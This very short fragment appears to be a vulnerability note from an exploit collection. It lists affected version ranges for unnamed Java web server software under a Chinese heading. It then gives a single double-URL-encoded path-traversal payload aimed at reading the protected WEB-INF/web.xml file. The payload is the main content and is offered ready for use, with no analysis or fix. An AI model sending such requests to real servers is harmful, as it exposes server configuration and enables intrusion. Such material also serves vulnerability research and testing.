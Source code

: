 <languages />

影響版本
--------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml